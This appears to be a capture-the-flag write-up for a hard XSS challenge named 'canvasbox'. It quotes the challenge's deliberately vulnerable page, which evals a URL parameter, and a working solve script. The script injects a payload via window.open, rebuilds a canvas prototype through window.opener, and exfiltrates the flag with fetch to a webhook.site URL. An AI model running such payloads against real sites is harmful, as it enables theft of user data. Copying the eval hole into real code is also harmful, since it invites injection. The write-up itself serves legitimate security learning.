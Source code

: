 # canvasbox

## Challenge Description

A single page XSS challenge by `Ark`. The server also response with CSP header `Content-Security-Policy: base-uri 'none'; frame-ancestors 'none'`


## Challenge Source code
```html
<!DOCTYPE html>
<body>
  <h1>XSS Playground</h1>
  <script>
    (() => {
      const flag = localStorage.getItem("flag") ?? "this_is_a_flag";
      localStorage.removeItem("flag");

      const canvas = document.createElement("canvas");
      canvas.id = "flag";
      canvas.getContext("2d").font = `1px "${flag}"`; // :)
      document.body.appendChild(canvas);

      delete window.open;

      const removeKey = (obj, key) => {
        
        delete obj[key];
        if (key in obj) {
          Object.defineProperty(obj, key, {});
        }
        
      };

      for (const descriptor of Object.values(
        Object.getOwnPropertyDescriptors(window)
      )) {
        const value = descriptor.value;
        const prototype = value?.prototype;

        if (prototype instanceof Node || value === DOMParser) {
          // Delete all the properties
          for (const key of Object.getOwnPropertyNames(value)) {
            removeKey(value, key);
          }
          for (const key of Object.getOwnPropertyNames(prototype)) {
            removeKey(prototype, key);
          }
        }
      }
    })();

    const params = new URLSearchParams(location.search);
    const xss = params.get("xss") ?? "console.log(1337)";

    eval(xss); // Get the flag!
  </script>
</body>

```

## What did I do?

### Stuggle

First, of cuz popping `alert` boxes!

![](image-3.png)

In this challenge, we can only access `flag` via `canvas.getContext("2d").font`, however the `getContext` function, along with many other things were removed by the author.

I don't have `document.createElement`, `body.innerHTML`, not even `document.body`! The only way to work with this is to recover the `getContext` function from a webpage that is still intact.

After few hours of stuggle, I noticed the server failed to set `Cross-Origin-Opener-Policy` as it is served via unsecure HTTP connection, and the code specifically removed `window.open`. I wonder if this is a hint :O

### Solution

Reading some writeup, it seems that everyone is using `window.open` like the popup blocker doesn't exists (yes, it doesn't exists in the bot). With this function, we can create a new, unpolluted `document` and access the removed `getContext` function. Except that it is specifically removed in this challenge...

So instead, we can call `window.open` on our own website, and access the `document` via `window.opener`. After some try-and-error, I got this solve script:

## Solve Script

```html
<script>
  payload = `
    fetch("https://webhook.site/xxxxxxxxxxxx?inner")
    window.opener.location = "http://web:3000/404"
    setTimeout(()=>{
        window.opener.document.write("<canvas id=ff></canvas>")
        Object.setPrototypeOf(flag, window.opener.document.getElementById("ff").__proto__);
        fetch("https://webhook.site/xxxxxxxxxxxx?"+flag.getContext("2d").font)
    },1000);
  `
  window.open("http://web:3000/?xss=" + encodeURIComponent(payload))
</script>
<img src="https://webhook.site/xxxxxxxxxxxx?ready" />
```

## Comments

This challenge was a `hard` challenge and I am very lucky to be able to solve it. Surprisingly, I couldn't solve the `easy` challenge "Slide Sandbox". Looking at the solve counts, seems everyone had the same thought. I wonder if I got the intended solution?

![](image-2.png)

Anyway, I think I won this game as I solved a `hard` challenge from `Ark` lol. Thanks!
